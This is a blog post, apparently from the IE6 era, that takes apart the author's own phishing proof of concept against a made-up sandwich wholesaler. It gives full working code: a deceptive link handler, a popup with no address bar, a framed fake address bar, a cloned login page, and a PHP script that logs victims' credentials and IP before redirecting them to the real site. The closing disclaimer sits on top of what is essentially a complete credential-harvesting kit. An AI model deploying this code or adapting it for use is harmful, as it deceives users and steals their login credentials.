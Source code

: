```yaml
---
layout: post
title: The anatomy of a phishing attack - advanced technique
tags:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at `wholesalepbj.com`.  My 'fake' URL that I provided the target with was from an e-mail from `sales@wholesalepbj.com` which told them about a new promotion we were running.  It told them to go to `diamondquality-wholesalepbj.com` for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited `wholesalepbj.com` and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  `diamondquality-wholesalepbj.com`, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  
Just click 
<a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a>
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
  window.open("redirectToPBJ.html", "PBJWindow",
              "status=0,toolbar=0,location=0,left=1,top=1,height=" 
              + screen.height + ",width=1010"
             );
  return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns `false` so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to `pbj`, we name it `pbjwindow`, etc.  You'll notice the only suspect thing is `location=0` in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

**`redirectToPBJ.html`**
```html
<html>
  <title>http://www.wholesalepbj.com</title>
  <frameset rows="27,*" border=0 frameborder=0>
    <frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
    <frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
  </frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to `www.wholesalepbj.com.html`.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the **`top.html`** file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

**`top.html`**
```html
<style type="text/css">
  body {
    margin: 0px;
    padding: 0px;
    background-color: #d4d0c8;
    font-family: tahoma;
    font-size: 11px;
    border-top: 1px solid #ffffff;
    border-bottom: 1px solid #aaaaaa;
    vertical-align: middle;
  }

  #address {
    float: left;
    height: 35px;
    padding: 3px;
  }

  #addressbox {
    width: 910px;
  }

  #gobutton {
    background-image: url('go.jpg');
    background-repeat: no-repeat;
    border: 0px;
    padding-left: 17px;
  }
  </style>
  <script type="text/javascript">
    function gotoAddress()
    {
      var v= document.getElementById('addressbox').value;
      if (v.substr(0, 7) != 'http://') {
        v = 'http://' + v;
      }
      top.opener.location.href=v;
      parent.window.close();
      return false;
    }
  </script>

  <p id="address">Address</p>
  <p id="box">
  <form name="address" action="/" onsubmit="return gotoAddress()">
    <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
    <input value="Go" id="gobutton" type="submit" />
  </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The **`go.jpg`** is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an `http://`, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to `wholesalepbj.com` in my browser and did a file -> save as - and saved the entire web page and archive named `www.wholesalepbj.com.html`.  I uploaded this to my evil server as well.  It had to be named this so we could support the `src` attribute in our framed document **`top.html`**'s source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite(
  $f, 
  "----------------------------\nip: " 
    . $_SERVER['REMOTE_ADDR'] . "n" 
    . print_r($_POST, TRUE)
);
fclose($f);
?>
<script type="text/javascript">
  parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.